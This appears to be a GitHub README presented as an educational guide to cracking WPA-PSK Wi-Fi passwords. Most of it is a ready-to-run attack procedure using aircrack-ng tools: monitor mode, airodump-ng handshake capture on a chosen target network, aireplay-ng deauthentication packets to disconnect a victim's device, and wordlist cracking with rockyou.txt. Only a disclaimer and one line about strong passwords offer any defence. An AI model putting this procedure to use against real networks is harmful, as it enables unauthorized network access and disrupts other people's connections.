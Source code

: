 # Wi-Fi Network Hacking Guide (Educational)

When you enable Wi-Fi in public places, you'll encounter numerous networks that likely utilize WPA-PSK encryption. Although these networks are susceptible to hacking, it is crucial to emphasize that this guide is strictly for educational purposes. Engaging in these activities on networks without proper authorization is illegal. Having addressed this disclaimer, let's explore the underlying mechanisms, the practical execution, and measures to safeguard yourself against such vulnerabilities.

## Introduction

When you connect to a network from a wireless device, a `handshake` is sent from the device to the router. This handshake contains the encrypted password.

While it's not possible to reverse the encrypted password, you can use a technique called a word list attack. A word list is a huge text file containing thousands of passwords. By comparing the encrypted handshake password with the passwords in the word list, you can determine the real password.

## Requirements
For this guide, to perform Wi-Fi network hacking, you'll need:
- Computer running `Linux` distribution;
- Computer with a network card that supports `monitor mode`;
- Install the package `Aircrack-ng` with the command `sudo apt install aircrack-ng`;

## Procedure
### 1 - Determine the Network Interface
Identify the wireless network interfaces, which usually start with w (e.g., wlp3s0).
<br>This information will be needed later.
<br>Open a terminal and type:

```
ip a
```

> _The "ip a" command in Linux displays network interface information, including IP addresses, MAC addresses, and related configurations. It is used for troubleshooting and network configuration purposes._

### 2 - Enable Monitor Mode
Use the airmon-ng tool to switch your network card to monitor mode.
<br>It will break your internet connection temporarily.
<br>Enter the command:

```
airmon-ng start <wireless interface>
```

### 3 - Verify Monitor Mode
Now, the wireless interface should be displayed as `<interface>mon` (e.g., wlp3s0mon).
<br>If not, it means your network card doesn't support monitor mode, and you'll need the external network card mentioned earlier.
<br>Run the command in a terminal to check if the network card's mode has changed to monitor.

```
iwconfig
```
It should appear `Mode: Monitor`.

### 4 - Scan for Networks
Use airodump-ng to view the networks around you.
<br>This command will display a list of nearby networks along with their BSSIDs (network MAC addresses) and channels.
<br>Enter the command:

```
airodump-ng <wireless interface>mon
```

### 5 - Target Network
Identify the BSSID and channel of the network you wish to attack.

### 6 - Capture the Handshake
This command will show all the devices currently connected to that network.
<br>If you watch a video in one of this devices, the amount of packets (frames) being set to a device increses a lot. 
<br>In a new terminal window, enter the command:

```
airodump-ng -d(--bssid) <BSSID> -w(--write) <filename> -c(--channel) <channel>  <wireless interface>mon
```
- `<BSSID>` - target network's BSSID;
- `<channel>` - target network's channel;
- `<filename>` - desired name for the captured handshake file;
- `<wireless interface>mon` - name of your wireless interface in monitor mode;

### 7 - Deauthentication Attack
Now we need to to send deauthentication packets to the victim's device, forcing it to disconnect and reconnect to the network so we can capture the handshake.
<br>Leave the previous terminal open and running.
<br>Use this command in another terminal:

```
aireplay-ng -0 10 -a <BSSID> -c <client ESSID> <wireless interface>mon
```
- `-0 10` - deauthentication and we gonna send 10 packets;
- `-a <BSSID>` - target network's BSSID;
- `-c <client ESSID>` - ESSID (name) of the device you want to deauthenticate (e.g., the victim's device);
- `<wireless interface>mon` - name of your wireless interface in monitor mode;

### 8 - Capture the Handshake
Observe the terminal running `airodump-ng` (step 6) and wait for a device to reconnect.
<br>Once the handshake is captured, you can see a message saying `WPA handshake: <BSSID>`.
<br>You can stop `airodump-ng` by pressing `Ctrl+C`.
<br>The captured handshake will be saved in the specified filename.

### 9 - Word List Attack
Kali Linux comes with pre-installed word lists located in the directory `/usr/share/wordlists`.
<br>If your not on Kali, you can download a word list from here.
<br>Now lets attempt to match the captured handshake with passwords from the word list.
<br>Use the command:

```
aircrack-ng -w <wordlist> <filename>
```

- `<wordlist>` - path to the desired word list file (e.g., /usr/share/wordlists/rockyou.txt);
- `<filename>` - name of the captured handshake file;

### 10 - Cracked!
Note: After performing these steps, your internet connection may still be interrupted. To fix this, you can either restart your computer or execute the command airmon-ng stop <monitor interface> followed by systemctl restart network* to restart the network services.

## Protecting Yourself
While you cannot prevent the authentication process, you can protect against word list attacks by choosing a long and random password that is unlikely to be found in any word list.

## Conclusion
In this guide, we explored the process of Wi-Fi network hacking for educational purposes only. It is essential to respect privacy and legality when using these techniques. We discussed capturing handshakes, performing deauthentication attacks, and cracking passwords using word lists. Remember to always use this knowledge responsibly and protect yourself by setting strong passwords for your Wi-Fi networks.

If you found this guide helpful, feel free to leave a star and thank you for reading!

## GLOSSARY
## DISCLAIMER
